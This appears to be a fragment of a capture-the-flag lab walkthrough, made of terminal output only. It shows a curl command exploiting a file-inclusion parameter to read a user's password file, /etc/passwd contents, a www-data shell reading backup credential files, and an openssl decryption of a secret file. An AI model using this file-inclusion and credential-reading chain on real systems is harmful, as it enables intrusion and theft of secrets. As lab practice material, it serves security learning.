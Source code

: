 usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin

└─$ curl http://192.168.53.128/image.php?secrettier360=/home/saket/password.txt | sed -e '6,$!d' | sed 's/finaly you got the right parameter<br><br><br><br>//' | sed '$d'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   215  100   215    0     0  71666      0 --:--:-- --:--:-- --:--:-- 71666
follow_the_ippsec



http://192.168.53.128/wordpress/wp-content/themes/twentynineteen/secret.php


$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


www-data@ubuntu:/tmp$ cat /opt/backup/server_database/backup_pass
cat /opt/backup/server_database/backup_pass
your password for backup_database file enc is 

"backup_password"


Enjoy!

www-data@ubuntu:/home/saket$ cat key.txt
cat key.txt
I know you are the fan of ippsec.

So convert string "ippsec" into md5 hash and use it to gain yourself in your real form.


www-data@ubuntu:/home/saket$ cat enc.txt
cat enc.txt
nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4=


The MD5 hash of:
ippsec
is:
366a74cb3c959de17d61db30591c39d1
3336366137346362336339353964653137643631646233303539316333396431

$ echo "nzE+iKr82Kh8BOQg0k/LViTZJup+9DReAsXd/PCtFZP5FHM7WtJ9Nz1NmqMi9G0i7rGIvhK2jRcGnFyWDT9MLoJvY1gZKI2xsUuS3nJ/n3T1Pe//4kKId+B3wfDW/TgqX6Hg/kUj8JO08wGe9JxtOEJ6XJA3cO/cSna9v3YVf/ssHTbXkb+bFgY7WLdHJyvF6lD/wfpY2ZnA1787ajtm+/aWWVMxDOwKuqIT1ZZ0Nw4="  | base64 -d | openssl enc -aes-256-ecb -d -a -K 366a74cb3c959de17d61db30591c39d1

